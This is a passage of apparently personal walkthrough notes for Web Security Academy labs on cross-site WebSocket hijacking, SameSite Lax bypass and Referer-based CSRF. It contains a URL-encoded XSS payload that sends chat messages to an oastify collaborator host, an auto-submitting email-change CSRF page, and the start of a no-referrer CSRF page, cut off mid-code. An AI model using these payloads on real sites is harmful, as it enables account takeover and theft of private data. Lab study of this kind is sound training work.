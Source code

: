 ```html
window.location = "https://cms-0a92009d03bba46e80ca0381004f00b6.web-security-academy.net/login?username=test%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%39%32%30%30%39%64%30%33%62%62%61%34%36%65%38%30%63%61%30%33%38%31%30%30%34%66%30%30%62%36%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%20%73%74%61%72%74%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%20%20%20%20%7d%0a%20%20%20%20%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%20%68%61%6e%64%6c%65%52%65%70%6c%61%79%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%6a%79%6c%76%79%6d%66%74%36%36%6d%33%33%68%31%6e%6c%65%31%78%71%77%6e%36%69%78%6f%6f%63%6b%30%39%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%2f%27%2c%20%7b%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%6d%65%74%68%6f%64%3a%20%22%50%4f%53%54%22%2c%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%62%6f%64%79%3a%20%28%65%76%65%6e%74%2e%64%61%74%61%29%0a%20%20%20%20%20%20%20%20%20%20%20%20%7d%29%3b%0a%20%20%20%20%20%20%20%20%7d%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%54%65%78%74%20%68%61%73%20%62%65%65%6e%20%73%65%6e%74%20%74%6f%20%74%68%65%20%73%65%72%76%65%72%22%29%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=tes"
</script>
```
13. Deliver exploit to the victim
14. Read collaborator history to retrieve the password
# SameSite Lax bypass via cookie refresh
1. Login via SSO
2. Identify that `GET /social-login` triggers an OAuth authentication
3. Change email
	1. There is no CSRF token and only accepts POST request
4. Host a malicious page that will make the user open a new tab to trigger an SSO authentication flow then subsequently make a request to change their email
```html
<h1>click here</h1>
<script>
	window.onclick = () => {
		window.open('https://0a8100510364f0ab80cf031f000a00c7.web-security-academy.net/social-login');
}
</script>
<body>
	<form action="https://0a8100510364f0ab80cf031f000a00c7.web-security-academy.net/my-account/change-email" method="POST">
		<input type="hidden" name="email" value="pwned@evil.net" />
	</form>
<script>
	setTimeout(() => {
		document.forms[0].submit();
	}, "5000");
</script>
</body>
```
# CSRF where Referer validation depends on header being present
1. Login > Change email
2. Host normal POST CSRF attack
3. Receive error stating "Invalid referer header"
4. Check the request in Burp > Send to repeater
5. Removing entire `Referer` header returns a valid response
6. Host the following malicious page which includes a tag to remove the `Referer` header
```html
<html>
<meta name="referrer" content="no-referrer">
	<body>
```